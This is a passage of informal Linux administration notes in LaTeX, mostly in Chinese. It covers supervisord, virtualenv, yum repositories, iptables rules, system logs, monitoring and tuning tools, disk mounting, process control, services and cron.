        RETVAL=$?
        ;;
  *)
        echo $"Usage: $0 {start|stop|status|restart|reload|force-reload|condrestart}"
        exit 1
esac
exit $RETVAL
\end{lstlisting}

And start supervisor:

\begin{verbatim}
    chmod +x /etc/init.d/supervisord
    mkdir /etc/supervisord.d/
    chkconfig --add supervisord
    chkconfig supervisord on
    service supervisord start    
\end{verbatim}

\begin{verbatim}
[include]
files = /etc/supervisord.d/*.conf
\end{verbatim}

 
一个经典配置文件,在docker容器中用supervisor管理ssh和apache两个守护进程,如下:
\begin{verbatim}
[supervisord]
nodaemon=true

[program:sshd]
command=/usr/sbin/sshd -D

[program:apache2]
command=/bin/bash -c "source /etc/apache2/envvars && exec /usr/sbin/apache2 -DFOREGROUND"
\end{verbatim}

如下创建docker容器即可:
\begin{verbatim}
docker run -it -d --name=prober5 --restart=always  prober5 /usr/bin/supervisord
\end{verbatim}


\section{virtualenv}

\subsection{virtualenv}
Just install the package with pip, create a virtual environment and activite it.
\begin{verbatim}
pip install virtualenv
virtualenv --python=/path/to/python/interpreter my_venv
source my_venv/bin/activate
deactivate
\end{verbatim}

We can copy the whole environment folder to another machine which is disconnected to the Internet. 
Dynamic libraries such as /usr/lib/libpython2.7.so.1.0  should be transfered together.


\subsection{virtualenvwrapper}

Installation:
\begin{verbatim}
    pip install virtualenvwrapper
\end{verbatim}

To start using virtualenvwrapper:
\begin{verbatim}
    export WORKON_HOME=~/PyEnv
    export PROJECT_HOME=~/PyPro
    source /usr/local/bin/virtualenvwrapper.sh
    lsvirtualenv
\end{verbatim}



Common commands:
\begin{verbatim}
    
mkvirtualenv my_env
workon my_env
deactivate

mkproject my_project
workon my_project
deactivate

rmvirtualenv my_project
cdvirtualenv

\end{verbatim}


\subsection{Anaconda as virtualenv}

Anaconda can act as virtualenv, even in offline environment:
\begin{verbatim}
    conda create --name test_env_name --offline python=2.7
\end{verbatim}
\section{Yum}


\subsection{EPEL}

Extra Packages for Enterprise Linux(EPEL) 
is a package that provides extra and newer packages for server-oriented stations.


\begin{verbatim}
    rpm -ivh http://dl.fedoraproject.org/pub/epel/6/x86_64/epel-release-6-8.noarch.rpm
    rpm --import /etc/pki/rpm-gpg/RPM-GPG-KEY-EPEL-6
    yum -y install epel-release
\end{verbatim}

\subsection{Private Repo}

Create /etc/yum.repos.d/local.repo:
\begin{verbatim}
[local]
name=centos7
baseurl=ftp://10.250.192.19/pub/centos7
gpgcheck=0
enabled=1
priority=1
\end{verbatim}

Repo management:
\begin{verbatim}
yum repolist
yum info python-devel
yum deplist python-devel
\end{verbatim}

%!Mode:: "TeX:UTF-8"
\section{iptables操作}
linux的包过滤功能,即linux防火墙,它由netfilter 和 iptables 两个组件组成。

netfilter 组件也称为内核空间,是内核的一部分,由一些信息包过滤表组成,这些表包含内核用来控制信息包过滤处理的规则集。

iptables 组件是一种工具,也称为用户空间,它使插入、修改和除去信息包过滤表中的规则变得容易。

iptables 默认有四个表Filter, NAT, Mangle, Raw。表包含若干个链(chain),链包含若干规则。

\begin{verbatim}
重启:service iptables restart

查看iptables状态:service iptables status

保存iptables配置:service iptables save

Iptables服务配置文件:/etc/sysconfig/iptables-config

Iptables规则保存文件:/etc/sysconfig/iptables

打开iptables转发:echo "1"> /proc/sys/net/ipv4/ip_forward

\end{verbatim}

iptables命令:
\begin{verbatim}
iptables [ -t 表名] 命令选项 [链名] [条件匹配] [-j 目标动作或跳转] 
\end{verbatim}
表名默认为Filter。

命令选项:
\begin{verbatim}
-A : 追加
-I pos: 在pos处插入。pos默认为1。
-D : 删除规则。后面要指明规则号或规则内容。
-R: 替换规则。
-L: 列举指定chain(默认为所有chain)的规则
-F: 清空指定chain(默认为所有chain)的规则
-N: 新建一条链
-X: 删除一条链
-P: 设置一条链的默认策略
-V: 显示版本号
-v: 显示详细信息
-h: 显示帮助信息
-n: 以数字形式显示结果
\end{verbatim}

条件匹配:
\begin{verbatim}
-p: 指定协议,如tcp, udp, icmp
-s: 源地址
-d: 目的地址
-i:输入端口
-o: 输出端口
-m: 扩展
\end{verbatim}

目标值:
\begin{verbatim}
ACCEPT:允许数据包通过。 
DROP:直接丢弃数据包,不给出任何回应信息。 
REJECT:拒绝数据包通过,必须时会给数据发送端一个响应信息。 
LOG:在/var/log/messages 文件中记录日志信息,然后将数据包传递给下一条规则。 
QUEUE:防火墙将数据包移交到用户空间 
RETURN:防火墙停止执行当前链中的后续Rules,并返回到调用链(the calling chain) 
\end{verbatim}



举例
\begin{verbatim}
查看iptables规则
iptables –L(iptables –L –v -n)

允许内网访问本机的某些端口
iptables -I INPUT 2 -i eth0 -p tcp -m multiport --dport 21,25,80,110,8082 -s 172.0.0.0/8 -j ACCEPT

开放本机的8082端口
iptables -I INPUT 2 -i eth0 -p tcp --dport 8082 -j ACCEPT

iptables -I INPUT 2 -i eth0 -p tcp --dport 80 -m state --state NEW,ESTABLISHED -j ACCEPT 

iptables -A INPUT -i eth0 -p tcp --dport 80 -m state --state NEW,ESTABLISHED -j ACCEPT 

iptabels -D INPUT 2 

iptables -R INPUT 3 -i eth0 -p tcp --dport 80 -m state --state NEW,ESTABLISHED -j ACCEPT 

设置默认策略
iptables -P INPUT DROP 

允许远程主机进行SSH连接
iptables -A INPUT -i eth0 -p tcp --dport 22 -m state --state NEW,ESTABLISHED -j ACCEPT 
iptables -A OUTPUT -o eth0 -p tcp --sport 22 -m state --state ESTABLISHED -j ACCEPT 

允许HTTP请求
iptables -A INPUT -i eth0 -p tcp --dport 80 -m state --state NEW,ESTABLISHED -j ACCEPT 
iptables -A OUTPUT -o eth0 -p tcp --sport 80 -m state --state ESTABLISHED -j ACCEPT 

限制ping 192.168.146.3主机的数据包数,平均2/s个,最多不能超过3个
iptables -A INPUT -i eth0 -d 192.168.146.3 -p icmp --icmp-type 8 -m limit --limit 2/second --limit-burst 3 -j ACCEPT 

限制SSH连接速率(默认策略是DROP)
iptables -I INPUT 1 -p tcp --dport 22 -d 192.168.146.3 -m state --state ESTABLISHED -j ACCEPT  
iptables -I INPUT 2 -p tcp --dport 22 -d 192.168.146.3 -m limit --limit 2/minute --limit-burst 2 -m state --state NEW -j ACCEPT 

\end{verbatim}



详见\url{http://drops.wooyun.org/tips/1424}

\url{https://lesca.me/archives/iptables-tutorial-structures-configuratios-examples.html}

\url{https://www.centos.bz/2011/06/iptables-basic-guide/}

\url{http://www.vpser.net/security/linux-iptables.html}

\url{https://www.frozentux.net/iptables-tutorial/cn/iptables-tutorial-cn-1.1.19.html}















%!Mode:: "TeX:UTF-8"
\section{日志信息}


\subsection{查看用户连接信息}
连接时间日志一般由/var/log/wtmp和/var/run/utmp这两个文件记录,不过这两个文件都无法使用tail或cat命令直接查看。该文件由系统自动更新。Linux提供了如 w, who, finger, id, last, lastlog,ac等命令读取这部分的信息。
\begin{description}
    \item[finger]user information lookup program.用户详细信息,甚至包括电话号码。 
    \item[w]Show who is logged on and what they are doing.
    \item[last]show listing of last logged in users.\verb+last|grep reboot+记录了开机时间。 
    \item[lastlog] reports the most recent login of all users or of a given user
    \item[users]print the user names of users currently logged in to the current host. 其实就是第一列。
    \item[ac]ac应是accounting的缩写。打印用户连接时间的总和,指多个pty
    \item[id]当前用户的id和组id
    \item[uptime]查看开机时间,其实就是w输出的第一行
\end{description}

The utmp file allows one to discover information about who is currently using the system. 

The  wtmp  file records all logins and logouts.

\subsection{命令历史记录}
.bash\_history 记录了Bash命令历史,但不包含最近执行的命令。

/var/log/apt/目录下的文件记录了apt相关的命令执行历史。

\subsection{进程清算(accounting)}

acct是一个系统调用:

\begin{verbatim}
 #include <unistd.h>
 int acct(const char *filename);
\end{verbatim}

The  acct()  system  call  enables  or  disables process accounting.  If called with the name of an existing file as its argument,
accounting is turned on, and records for each terminating process are appended to filename as it terminates.  An argument of  NULL
causes accounting to be turned off.

例如:
\verb+ acct("/var/log/pacct");+

accton为系统命令,清算一段时间内终结的进程, 记录于清算文件中, 默认为/var/log/account/pacct。lastcomm用来读取清算文件。
\verb+ accton [OPTION] on|off|filename+

例如:
\begin{verbatim}
sudo accton somefile
sudo accton off
lastcomm -f somefile
\end{verbatim}

默认的pacct清算似乎早已默认开启,使得\verb+sudo accton on+命令显得多余。


\subsection{内核日志}
dmesg: 显示内核信息

\subsection{系统与服务日志}
由syslog的服务管理,比如下面的日志文件都是由syslog日志服务驱动的:      
/var/log/lastlog :记录最后一次用户成功登陆的时间、登陆IP等信息 

/var/log/messages 包括整体系统信息,其中也包含系统启动期间的日志。此外,mail,cron,daemon,kern和auth等内容也记录在var/log/messages日志中。

/var/log/secure :Linux系统安全日志,记录用户和工作组变坏情况、用户登陆认证情况 

/var/log/btmp :记录Linux登陆失败的用户、时间以及远程IP地址 

/var/log/cron :记录crond计划任务服务执行情况

/var/log/dmesg — 包含内核缓冲信息(kernel ring buffer)。在系统启动时,会在屏幕上显示许多与硬件有关的信息。可以用dmesg查看它们。

/var/log/boot.log — 包含系统启动时的日志

syslog服务由配置文件/etc/syslog.conf或/etc/rsyslog.conf.

/etc/syslog.conf的内容格式为:
\begin{verbatim}
消息类型.错误级别    动作域
\end{verbatim}

消息类型(facility)包括:
auth, authpriv (for security information of a sensitive nature), cron, daemon, ftp, kern , 
lpr, mail, news, security (deprecated synonym for auth), syslog, user, uucp, 
local0, local1, \ldots,  local7。


错误级别包括: emerg, alert, crit, err, warning, notice, info, debug。优先级依次降低。

动作域即日志文件路径,如为星号则表示在各个日志文件、用户终端都输出。



\subsection{logger}
logger程序为syslog提供了shell接口。
-p选项设置了消息的facility和level,如 -p local3.info。

\subsection{日志转储}
Linux中使用logrotate命令进行日志转储。
可以配合cron计划任务轻松实现日志文件的定时转储, /etc/logrotate.conf提供了日志转储的相关配置。
各个应用自身的转储配置存放于/etc/logrotate.d中,被/etc/logrotate.conf所读取。
包括发送电子邮件。

\begin{verbatim}
/var/log/active-prober.log {
        su root root
        weekly
        missingok
        rotate 5
        size=500
        sharedscripts
        postrotate
                echo "Trimming active-prober.conf", $(date) >> /root/datefile
        endscript
}
\end{verbatim}












%!Mode:: "TeX:UTF-8"
\section{测量工具汇总}

\subsection{网络流量测量}
\textbf{vnstat, sar, slurm, ifstat, system-monitor}等工具可查看网卡总流量。\textbf{iptraf,iftop}可查看连接的流量。
参考\ref{sec:netmeasure}。


\subsection{磁盘速率测量}
关于磁盘负载的生成器,主要有iometer和\textbf{iostat}。

本文使用Iometer工具评测存储设备性能。Iometer最初由英特尔公司开发,并得到了广泛应用。此后Iometer已经成为一个开源项目,在GPL协议下发布。本文中使用的Iometer工具包含两部分,分别为Linux下的负载发生器Dynamo和Windows PC下的控制端,该控制端也称为Iometer(以下用Iometer指代Windows下的控制端)。Dynamo在Linux运行时能够掌控本地的所有CPU核,并掌握已被加载的所有磁盘的情况。而Dynamo又为Iometer所控制,需要将每次I/O的运行状况随时报告给Iometer。Iometer与Dynamo通信,操纵Dynamo对目标磁盘发起读写访问,并控制I/O访问参数,如读/写比例,随机I/O与顺序I/O的选择,数据块的大小,核对磁盘分区的任务分配,测试时长,结果刷新频率等。Iometer的分析结果给出了磁盘I/O过程中的IOPS(每秒钟I/O次数)、数据速率、CPU利用率、延迟、错误率等参数的测量。

Iostat对磁盘IO操作进行监视,它仅分析系统整体状况,不对进程进行深入分析。

Iostat常常配合dd使用。以下命令在当前目录下生成一个50M的文件:
\begin{verbatim}
dd if=/dev/zero of=50M.file bs=1M count=50
\end{verbatim}
 


\subsection{内存消耗测量}
常用的内存测量工具为\textbf{free}。
此外,\textbf{top,ps}显示了各进程的内存使用信息。

\textbf{pmap}显示指定进程的内存映像信息:
\begin{verbatim}
pmap PID
\end{verbatim}

\begin{verbatim}
 free -m:内存使用率(-m 表示单位为MB而非KB)
\end{verbatim}
上述free命令中,m选项设置单位为MB。因为buffer和cache是否算作已用空间有争议,故分两种算法列出。
上述vmstat命令,M表示单位为MB,如果是m,则为1000*1000B。


 
\subsection{存储消耗测量}
常用的存储/文件系统测量工具为\textbf{df}和\textbf{du}。
 如果只想查看当前目录下所有子目录的大小,有
\begin{verbatim}
du -s
\end{verbatim}
或者
\begin{verbatim}
du -h --max-depth=1
\end{verbatim}



\subsection{综合测量工具vmstat}
vmstat(Virtual Memory Statistics)是最常见的Linux/Unix监控工具,可以展现给定时间间隔的服务器的状态值,包括服务器的CPU使用率,内存使用,虚拟内存交换情况,IO读写情况。
不足之处是无法对某个进程进行深入分析。

\begin{verbatim}
vmstat -d:磁盘信息
vmstat -s: slab信息
vmstat -p /dev/sda1 : 分区信息
\end{verbatim}

举例:
\begin{verbatim}
#vmstat 1 5
procs -----------memory---------- ---swap-- -----io---- -system-- ----cpu----
 r  b   swpd   free   buff  cache   si   so    bi    bo   in   cs us sy id wa
 0  0 235148 398516  40376 513916    0    3    28    17  291  107  5  2 93  1
 1  0 235148 398580  40376 513916    0    0     0     0  710 1337  8  1 92  0
 0  0 235148 403460  40384 508676    0    0     0   168 1065 4172 28  6 66  0
 0  0 235148 403320  40384 508648    0    0     0    24  759 1481  6  2 92  0
 0  0 235148 403416  40384 508648    0    0     0     0  691  952  7  2 92  0
\end{verbatim}
r表示运行和等待CPU时间片的个数,如长期超过CPU个数,说明压力过大。

\subsection{综合测量工具:sar}
sar(System Activity Report)是源于Solaris的系统监视命令,用于报告系统负载,包括CPU,内存,磁盘,网络\cite{wikipedia}。在Linux上通过sysstat软件包来提供。
与sysstat类似的工具还包括\textbf{atsar}和\textbf{dstat}。

Sysstat是一个工具集,包括\textbf{sar、pidstat、iostat、mpstat、sadf、sadc}。sadc(System Activity Data Collector)是sar的后端,为其收集数据。


\begin{verbatim}
pidstat  2   5  
// 每隔2秒,显示5次,所有活动进程的CPU 使用情况 
pidstat  - p  3132   2   5  
// 每隔2秒,显示5次,PID为1643的进程的CPU使用情况显示 
pidstat  - p  3132   2   5   - r
// 每隔2秒,显示5次,PID为1643的进程的内存使用情况显示
\end{verbatim}

\begin{verbatim}
sar 2 // 每隔2秒显示CPU使用的情况										
sar -r 2 //内存使用情况					 
sar -d 2 //磁盘使用情况					 
sar -n DEV  2 //网络使用情况
iostat 2 //磁盘使用情况
\end{verbatim}

\subsection{综合测量工具:top}
对于top命令,最重要的两个交互快捷键是h和q,分别打印帮助信息和退出top。利用好h命令就能够进行各种复杂操作。例如,F可以选择一个field列,以其为标准进行行排序,如n表示MEM。
k键可用杀进程。r键可用renice进程。


\begin{figure}[ht]
	\begin{center}
	
\includegraphics[keepaspectratio,width=0.6\paperwidth]{Pictures/topCmdUbuntu.jpg}
		\caption{top在ubuntu下的输出}
	\label{fig:topCmdUbuntu}
	\end{center}
\end{figure}

top的前五行显示整个系统的信息。

第一行:
 10:01:23 当前系统时间\\
 126 days, 14:29 系统已经运行了126天14小时29分钟(在这期间没有重启过)\\
 2 users 当前有2个用户登录系统\\
 load average: 1.15, 1.42, 1.44 load average后面的三个数分别是1分钟、5分钟、15分钟的负载情况。\\
load average数据是每隔5秒钟检查一次活跃的进程数,然后按特定算法计算出的数值。如果这个数除以逻辑CPU的数量,结果高于5的时候就表明系统在超负荷运转了。
  
第二行:
 Tasks 任务(进程),系统现在共有183个进程,其中处于运行中的有1个,182个在休眠(sleep),stoped状态的有0个,zombie状态(僵尸)的有0个。

第三行:cpu状态
\begin{itemize}
\item us 用户空间占用CPU的百分比。
\item sy 内核空间占用CPU的百分比。
\item ni 改变过优先级的进程占用CPU的百分比
\item id 空闲CPU百分比
\item wa IO等待占用CPU的百分比
\item hi 硬中断(Hardware IRQ)占用CPU的百分比
\item si 软中断(Software Interrupts)占用CPU的百分比
\end{itemize}

第四行:内存状态
\begin{itemize}
\item total 物理内存总量(8GB)
\item used 使用中的内存总量(7.7GB)
\item free 空闲内存总量(530M)
\item buffers 缓存的内存量 (79M)
\end{itemize}

第五行:swap交换分区
\begin{itemize}
\item  2031608k total 交换区总量(2GB)
\item  2556k used 使用的交换区总量(2.5M)
\item  2029052k free 空闲交换区总量(2GB)
\item  4231276k cached 缓冲的交换区总量(4GB)
\end{itemize}

第四行中使用中的内存总量(used)指的是现在系统内核控制的内存数,空闲内存总量(free)是内核还未纳入其管控范围的数量。纳入内核管理的内存不见得都在使用中,还包括过去使用过的现在可以被重复利用的内存,内核并不把这些可被重新使用的内存交还到free中去,因此在linux上free内存会越来越少,但不用为此担心。
如果出于习惯去计算可用内存数,这里有个近似的计算公式:第四行的free + 第四行的buffers + 第五行的cached,按这个公式此台服务器的可用内存:530668+79236+4231276 = 4.7GB。
  
对于内存监控,在top里我们要时刻监控第五行swap交换分区的used,如果这个数值在不断的变化,说明内核在不断进行内存和swap的数据交换,这是真正的内存不够用了。


top默认为每个进程显示以下信息:
PID(进程号)、 USER(运行用户)、PR(优先级)、NI(任务nice值)、VIRT(虚拟内存用量, VIRT=SWAP+RES) 、RES(物理内存用量)、SHR(共享内存用量)、S(进程状态)、\%CPU(CPU占用比)、\%MEM(物理内存占用比)、TIME+(累计CPU占用时间)、COMMAND 命令名/命令行。


一些交互式命令:
\begin{description}
    \item  [f] 进入另一个视图,在这里可以编排基本视图中的显示字段。
    \item  [k] 可以用PID来杀进程
    \item  [r] renice
    \item  [c] 显示完整的应用程序路径
    \item  [M] 按照内存占用率排序
    \item  [P] 按照CPU占用率排序
    \item  [T] 按照累积时间排序    
\end{description}



\subsection{Nagios}
Nagios是一款开源的免费网络监视工具,能有效监控Windows、Linux和Unix的主机状态,交换机路由器等网络设置,打印机等。在系统或服务状态异常时发出邮件或短信报警第一时间通知网站运维人员,在状态恢复后发出正常的邮件或短信通知。

Nagios是一个监视系统运行状态和网络信息的监视系统。Nagios能监视所指定的本地或远程主机以及服务,同时提供异常通知功能等。
Nagios可运行在Linux/Unix平台之上,同时提供一个可选的基于浏览器的WEB界面以方便系统管理人员查看网络状态,各种系统问题,以及日志等等。

\subsection{按名称分类}
\begin{description}
\item[*stat]: vmstat, iostat, ifstat, vnstat
\item[ip*]: iptop, iptraf
\item[*top]:iptop, ntop
\end{description}

dstat是iostat, vmstat, ifstat 三合一的工具,用来查看系统性能。sysstat是sar所在的工具包。
你可以这样使用:
\begin{verbatim}
alias dstat='dstat -cdlmnpsy'
\end{verbatim}














%!Mode:: "TeX:UTF-8"



\section{Network Traffic Measurement} \label{sec:netmeasure} 
vnstat, sar, slurm, ifstat, system-monitor等工具可查看网卡总流量。iptraf,iftop可查看连接的流量。

\subsection{简单测量}
最原始的办法,是连续两次使用date;ifconfig命令,计算一定时间间隔内的数据量。
也可以通过查看/proc/net/dev获取数据量。
在Gnome3下,可以使用一个叫做netspeed的gnome shell插件。

\subsection{vnstat工具}
\begin{shellcmd}
#-ru 0 使其以byte为单位,1使其以bit为单位.
vnstat -l -ru 0 #持续采样 
vnstat -tr #统计网速,5秒内的采样平均计算所得。
\end{shellcmd}

\subsection{iftop工具}
显示带宽使用情况。3列显示,分别表示过去2s,10s,40s内的统计带宽。
\begin{verbatim}
iftop -h | [-nNpbBP] [-i interface] [-f filter code] [-F net/mask]
\end{verbatim}
例如:
\begin{shellcmd}
#-B表示以byte而非bit为单位,-P显示端口号
sudo iftop -B -P 
\end{shellcmd}
工具默认自动将IP地址转换为主机名,会产生一定的DNS流量,扰乱测试。为讲其关闭,可使用-n命令。

\subsection{sar工具}
也可以使用sar工具.在Redhat/Fedora下,sar工具位于sysstat软件包中.
\begin{shellcmd}
#最后的数字表示刷新时间间隔,单位为秒
sar -n DEV 3 
\end{shellcmd}

经我验证,sar统计的字节数为以太网层,包括其头部和尾部(虽然Linux抓不到帧尾的FCS),不包括前导码和帧间隔。

\subsection{ifstat工具}
\begin{shellcmd}
ifstat -a
\end{shellcmd}

\subsection{ntop工具}
Ntop是一种监控网络流量工具,用ntop显示网络的使用情况比其他一些网络管理软件更加直观、详细。Ntop甚至可以列出每个节点计算机的网络带宽利用率。它是一个灵活的、功能齐全的,用来监控和解决局域网问题的工具;尤其当ntop与nprobe配合使用,其功能更加显著。它同时提供命令行输入和web页面,可应用于嵌入式web服务。跟 top 监视系统活动状况相似,ntop 是一个用来实时监视网络使用情况的工具。由于 ntop 具有 Web 界面模式,因此无论是配置还是使用都很容易在短时间之内快速上手。

\subsection{iptraf工具}
Interactive Colorful IP LAN Monitor。可查看每条连接的信息。
\begin{verbatim}
iptraf -i eth0
\end{verbatim}


\subsection{slurm工具}
 Simple Linux Utility for Resource Management,查看网络流量的一个工具。
 \begin{verbatim}
 slurm -i eth0
 \end{verbatim}

彩色curse节目,有部分文字是白色,在浅色背景下看不清楚。










%!Mode:: "TeX:UTF-8"
\section{Linux系统调优}
\url{http://soft.chinabyte.com/os/3/11851003.shtml}
\url{http://coolshell.cn/articles/7490.html}


也许你可以怀 疑linux平台,但是你无法回避linux平台赋予你微调内核的能力。比如,内核TCP/IP协议栈使用内存池管理sk\_buff结构,那么可以在运行 时期动态调整这个内存pool\verb$(skb_head_pool)$的大小--- 通过echo XXXX>/proc/sys/net/core/hot\_list\_length完成。再比如listen函数的第2个参数(TCP完成3次握手 的数据包队列长度),也可以根据你平台内存大小动态调整。更甚至在一个数据包面数目巨大但同时每个数据包本身大小却很小的特殊系统上尝试最新的NAPI网卡驱动架构。

\subsection{TCP/IP子系统调优}
/proc目录下的所有内容都是临时性的, 所以重启动系统后任何修改都会丢失。
如欲在系统启动时自动修改TCP/IP参数,可将下面代码增加到/etc/rc.local文件: 

\begin{verbatim}
echo 256960 > /proc/sys/net/core/rmem_default #默认的接收窗口大小
echo 256960 > /proc/sys/net/core/rmem_max # 最大的TCP数据接收缓冲
echo 256960 > /proc/sys/net/core/wmem_default
echo 256960 > /proc/sys/net/core/wmem_max

echo 0 > /proc/sys/net/ipv4/tcp_timestamps #时间戳在(请参考RFC 1323)TCP的包头增加12个字节
echo 1 > /proc/sys/net/ipv4/tcp_sack #只重传丢失的包
echo 1 > /proc/sys/net/ipv4/tcp_window_scaling #支持更大的TCP窗口。 如果TCP窗口最大超过65535(64K), 必须设置该数值为1
\end{verbatim}
注: 上面实例中的数值可以实际应用, 但它只包含了一部分参数。

  另外一个方法: 使用 /etc/sysctl.conf 在系统启动时将参数配置成您所设置的值:
\begin{verbatim}
  net.core.rmem_default = 256960
  net.core.rmem_max = 256960
  net.core.wmem_default = 256960
  net.core.wmem_max = 256960
  net.ipv4.tcp_timestamps = 0
  net.ipv4.tcp_sack =1
  net.ipv4.tcp_window_scaling = 1
\end{verbatim}


 
 \subsection{文件子系统调优}
 \subsubsection{禁用atime}
 atime 是最近访问文件的时间,每当访问文件时,底层文件系统必须记录这个时间戳。因为系统管理员很少使用 atime,禁用它可以减少磁盘访问时间。禁用这个特性的方法是,在 /etc/fstab 的第四列中添加 noatime 选项。
 
 
\subsubsection{文件描述符数量}
在Linux 上配置文件描述符有点复杂。

使用这个命令增加内核文件描述符的限制:
\begin{verbatim}
# echo 8192 >; /proc/sys/fs/file-max
\end{verbatim}

最后,增加进程文件描述符的限制,在你即将编译squid 的同一个shell 里执行:
\begin{verbatim}
sh# ulimit -Hn 8192
\end{verbatim}
 
/etc/security/limits.conf 是对用户的限制:
\begin{verbatim}
* soft nofile 8192
* hard nofile 20480
\end{verbatim}
星号代表所有用户,nofile代表能打开的文件总数(noproc代表进程数限制)。


\subsection{内存子系统的调优}

 内存子系统的调优不是很容易,需要不停地监测来保证内存的改变不会对服务器的其他子系统造成负面影响。
  配置Linux内核如何更新dirty buffers到磁盘:
     \begin{verbatim}
 sysctl -w vm.bdflush="30 500 0 0 500 3000 60 20 0"
\end{verbatim}
   配置kswapd daemon,指定Linux的内存页数量:
     \begin{verbatim}
   sysctl -w vm.kswapd="1024 32 64"
    \end{verbatim}

 \subsection{关闭闲置的CPU核心}

     \begin{verbatim}
 echo 1 > /sys/devices/system/cpu/cpu3/online
    \end{verbatim}

 \subsection{其他}
 关闭不需要的服务,关闭不需要的tty,关闭ipv6/GUI。
 
 
 
 
 
 
 
 
 
 
 
 
 

%!Mode:: "TeX:UTF-8"
\section{分区创建与挂载}

\label{diskpartition}
\subsection{启动自动挂载设置} 
设置/etc/fstab,使得一些硬盘分区开机自动挂载。
\begin{lstlisting}
UUID=4C0E       /media/D \          
ntfs-3g defaults,nosuid,nodev,locale=zh_CN.UTF-8        0       0   
UUID=077  /media/E12    ext4    defaults        0       0   
\end{lstlisting}

然后执行

\begin{lstlisting}
mount -a
\end{lstlisting}

有个图形工具叫做pysdm;另外对于ntfs分区,可以使用ntfs-config工具。
配置完/etc/fstab后,使用mount -a命令执行该文件。


\subsection{分区查看与创建}
分区创建可使用fdisk和cfdisk命令,fdisk的man页自称buggy,推荐使用cfdisk等。
df可以查看分区使用率。

\subsection{分区格式化}
使用mkfs工具。

\subsection{分区挂载}
例如挂载优盘sdc,执行:
\begin{verbatim}
sudo mount -t msdos -o uid=li,gid=li /dev/sdc1 /mnt
\end{verbatim}



%!Mode:: "TeX:UTF-8"
\section{进程查看}
显示所有进程:
\begin{verbatim}
pstree -p #-p选项会打印出PID的值,否则只打印名字
ps -ef
\end{verbatim}


\section{进程控制}

按照NOHUP方式执行进程:
\begin{verbatim}
nohup ./cdn > /dev/null 2>&1 &
\end{verbatim}
noup:run a command immune to hangups, with output to a non-tty


杀进程:
\begin{verbatim}
kill [信号] pid
pkill [信号] pattern
fuser -km 文件名
\end{verbatim}

xkill杀死单一窗口
如需重启,可按住Alt SysRq,再依次按REISUB


\subsection{进程查找}

返回程序program的pid:
\begin{verbatim}
pidof program 
pgrep program 
ps -ef|grep program|awk '{print $2}'
\end{verbatim}
pgrep的-f参数使得查找的pattern不仅局限于程序名,而是整个命令行。 -u参数可以限制所属的user。

通过pid查看进程的命令行参数:
\begin{verbatim}
cat /proc/2884/cmdline
ps 3236|grep -v PID|awk '{print $5}'
\end{verbatim}

通过pid查看进程的打开的fd:
\begin{verbatim}
ls /proc/2884/fd
\end{verbatim}

通过pid查看进程的打开的文件:
\begin{verbatim}
lsof -p 2884
\end{verbatim}
通过程序名查看进程program的打开的文件:
\begin{verbatim}
lsof -c program 
\end{verbatim}

通过文件名查看打开该文件的进程
\begin{verbatim}
lsof ProberRun.log
fuser -m ProberRun.log
\end{verbatim}

显示打开了某个端口的进程
\begin{verbatim}
lsof -i:8082 #只包括本用户的进程, root用户除外
lsof -i |grep 8082
netstat -nlpt |grep 8082
\end{verbatim}





%!Mode:: "TeX:UTF-8"


\section{Linux运行与服务}


\subsection{rc scripts}

init.d/存放各种服务器和程序的二进制文件存放目录。

对每个运行级别x,rcx.d/存放各个启动级别的执行程序连接目录,里头的东西都是指向init.d/的一些软连接。

CentOS/Ubuntu下的/etc/rc.local脚本将在所有其他init脚本之后执行,用户可将自己想要开机执行的指令追加到这个脚本里。

rc是runcom(runcom应该是运行命令的意思)的简称。

/etc/inittab is only used by upstart for the default runlevel.
System initialization is started by /etc/init/rcS.conf.
 Individual runlevels are started by /etc/init/rc.conf
 Terminal gettys are handled by /etc/init/tty.conf and /etc/init/serial.conf,
 with configuration in /etc/sysconfig/init.



\subsection{systemd}

systemd的启动级别配置文件位于 /lib/systemd/system/目录下。

更改默认启动级别:
\begin{verbatim}
systemctl set-default TARGET.target
\end{verbatim}
查看默认启动级别:
\begin{verbatim}
systemctl get-default
\end{verbatim}

\subsection{xrdp}
\begin{verbatim}
systemctl start xrdp.service
 systemctl enable xrdp.service
 chcon -t bin_t /usr/sbin/xrdp
chcon -t bin_t /usr/sbin/xrdp-sesman
\end{verbatim}

\subsection{Ubuntu系统服务}

Ubuntu使用service命令来临时启动和停止服务。service是一个脚本,调用start,stop等可执行文件。

Ubuntu上可以使用工具update-rc.d或sysv-rc-conf来管理服务,但经尝试似乎效果不理想。

\begin{verbatim}
sysv-rc-conf --list 
sysv-rc-conf apache2 on
\end{verbatim}

\subsection{RHEL系统服务}
service命令运行\verb+/etc/init.d+目录下的System V脚本或\verb+/etc/init+目录下的upstart jobs。
这些脚本应至少支持start, stop参数,有些支持status, restart参数。

service runs a System V init script or upstart job in as predictable environment as possible, removing most environment variables and with current working directory set to \verb+/+.  

重启网络:
\begin{verbatim}
service network restart
\end{verbatim}

查看所有服务的状态
\begin{verbatim}
service --status-all
将所有支持status命令的服务运行一遍
\end{verbatim}


\subsection{at工具}
在CentOS及Ubuntu系统上,at命令所在的软件包为at。

atd所执行的内容由标准输入提供,或者通过-f选项指定一个脚本。
例如,如果需要立即执行“wall haha”命令:

\begin{verbatim}
echo wall haha|at now
\end{verbatim}

\subsection{cron工具}

cron执行时,也就是要读取三个地方的配置文件:一是/etc/crontab,二是/etc/cron.d目录下的所有文件,三是每个用户的配置文件. 


以下命令编辑用户crontab表:
\begin{verbatim}
crontab -e
\end{verbatim}

表的列依次表示:分,时,日,月,周几,命令。

亦可直接编辑/var/spool/cron/目录下的文件,某用户对应的crontab文件的文件名为其用户名。
\begin{verbatim}
echo "8 8 * * * /usr/sbin/logrotate /etc/logrotate.d/active-prober.conf" >> /var/spool/cron/root
\end{verbatim}

以下命令查看crontab表:
\begin{verbatim}
crontab -l
\end{verbatim}

%!Mode:: "TeX:UTF-8"
\section{用户与组}

\subsection{用户增加与删除}
